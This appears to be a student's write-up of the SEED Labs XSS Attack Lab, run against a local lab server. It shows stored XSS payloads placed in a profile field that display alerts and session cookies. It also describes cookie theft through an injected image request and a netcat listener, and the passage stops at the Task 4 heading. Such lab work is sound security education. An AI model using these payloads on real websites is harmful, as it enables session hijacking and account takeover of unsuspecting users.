









# Trabalho realizado na semana #9

<br>

# SEED Labs - XSS Attack Lab

## Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Add the following entries to the `/etc/hosts` file of your VM.

    ```bash
        10.9.0.5 www.seed-server.com
        10.9.0.5 www.example32a.com
        10.9.0.5 www.example32b.com
        10.9.0.5 www.example32c.com
        10.9.0.5 www.example60.com
        10.9.0.5 www.example70.com
    ```

2. Launch the web server, using `dcbuild` and `dcup` in the `Labsetup` directory.
    - This will automatically create a mysql database instance.

<br>

## Task 1 : Posting a Malicious Message to Display an Alert Window

The goal of this task is to execute script inside a vulnerable HTML input field.

1. Log into the website.
    - We used the credencials `alice` and `seedalice` to log into the platform. These were given in the lab.

2. Prepare the payload.
    - We will use the payload 
  
        ```html
            <script>alert('XSS');</script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
    
    <figcaption><strong>Fig 1. </strong>Entering the payload in the input field</figcaption>
</figure>

3. Save the changes and head to the profile.
    - A modal will be displayed with the message we wront in the script code ('XSS').
  
<figure>
    
    <figcaption><strong>Fig 2. </strong>A modal displaying our XSS attack</figcaption>
</figure>

<br>

## Task 2 : Posting a Malicious Message to Display Cookies

The goal of this task is similar to the precious one, except on this one we will be displaying more private user information.

1. Prepare the payload.
    - We will use the payload 
  
        ```html
            <script>alert(document.cookie);</script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
    
    <figcaption><strong>Fig 3. </strong>Entering the payload in the input field</figcaption>
</figure>

2. Save the changes and head to the profile.
    - A modal will be displayed with the message we wront in the script code (in this case, the user's session cookies).
    - Having access to the cookies could possibly allow us to log into someone's account or track someone's online presence.
  
<figure>
    
    <figcaption><strong>Fig 4. </strong>A modal displaying our XSS attack</figcaption>
</figure>

<br>

## Task 3 : Stealing Cookies from the Victim’s Machine

In the previous task we displayed the document's cookies, which means a different user accessing Alice's profile would see their own cookies instead of Alice's. As anyone has access to their own cookies by default, this isn't very dangerous in a remote attack.
In this task, we will use `netcat` to listen to the server, allowing us to intercept Alice's cookies upon a server request.

<figure>
    
    <figcaption><strong>Fig 5. </strong>Alice's cookies</figcaption>
</figure>

<figure>
    
    <figcaption><strong>Fig 6. </strong>Boby's cookies</figcaption>
</figure>

Annalysing these two images, we can check how the printed cookies are different when accessing Alice's profile from different accounts.

1. Prepare the payload.
    - As described above, our goal is to listen to the cookies being sent through the server upon a request. This is only possible if the client uses a `GET` method. Therefore, we shall input a malicious image tag, as images are always fetched using the `GET`method.
    - 
    - We will use the payload 
  
        ```html
            <script>document.write('');
            </script>
        ```

     inside the `brief description` input field inside the `Edit Profile` page.

<figure>
    
    <figcaption><strong>Fig 7. </strong>Entering the payload in the input field</figcaption>
</figure>

2. Save the changes and head to the profile.
    - This time, no modal will be shown. Instead, an invalid photo will be displayed and a request will be sent to the server.

3. Listen to the response to our request.
    - In a console, we will run the command `nc -lknv 5555`. 
    - This is a `netcat` command with the flags 
      - `-l`, to listen to the connection, like a man in the middle; 
      - `-k`, to maintain the netcat alive after the connection ends;
      - `-n`, to not do a DNS lookup;
      - `-v`, for a verbose output;
      - and the port `5555`, where the server is being hosted by docker.
  
<figure>
    
    <figcaption><strong>Fig 8. </strong>Executing netcat on port 5555</figcaption>
</figure>

<figure>
    
    <figcaption><strong>Fig 9. </strong>Server sending the cookies</figcaption>
</figure>

4. Now we have access to another user's cookiesand session.

<br>

## Task 4 : Becoming the Victim’s Friend
